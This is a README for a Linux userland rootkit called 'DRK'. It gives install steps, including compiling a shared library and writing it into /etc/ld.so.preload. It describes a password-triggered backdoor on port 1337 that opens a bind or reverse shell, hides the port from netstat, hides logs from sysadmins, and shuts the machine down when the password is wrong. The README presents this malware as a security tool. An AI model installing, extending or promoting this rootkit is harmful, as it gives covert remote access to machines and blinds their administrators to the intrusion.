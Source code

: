## Introduction

Welcome to my rootkit userland This toolkit offers some cool and interesting functionalities designed to enhance your digital security. Let's dive into what it can do.

## INSTALL MAKE

1) *install with Make*
```
# make
```
## INSTALL MANUAL

1) *git clone*:
```
git clone https://github.com/DARKSECshell/ROOTKIT-USERLAND
```

3) *userland rootkit compilation*
```
gcc DRK.c -o DRK.so -shared -fPIC -ldl
```

5) *moved library for /etc/ld.so.preload*
```
echo "$(pwd)/DRK.so" > /etc/ld.so.preload && ldconfig
```

7) *Check rk loading*
```
ldd /usr/bin/ls
```


## Functionality Overview

When the digital attacker issues the command to kill port 1337, an interesting sequence of events unfolds:

1. **Password Prompt**: Upon attempting to kill port 1337, the rootkit will prompt for a password.
   
2. **Password Verification**: If the provided password matches the expected one, the rootkit will proceed to the next step.
   
3. **Incorrect Password Handling**: If the password provided does not match the expected one, the machine will initiate a shutdown process.

But what happens if the correct password is entered?

4. **Port 1337 Hiding**: The rootkit will stealthily hide port 1337 from detection. Even tools like `netstat` (and possibly `ss` in the future) will be deceived.

5. **Bind Shell Activation**: Additionally, the rootkit will activate a bind shell on the local machine. While firewalls may attempt to block it, the user will have the option to choose between a reverse shell or a bind shell.

6. **Log Concealment**: The rootkit ensures that commands like `tail` will have no effect. Sysadmins won't be able to spot suspicious activity in logs, nor will they be able to use other tools to inspect them.

7. **Future Plans**: Looking ahead, I'm considering further enhancements to make the rootkit even more stealthy. For instance, I'm contemplating hiding `/etc/ld.so.preload` to minimize suspicion from sysadmins.
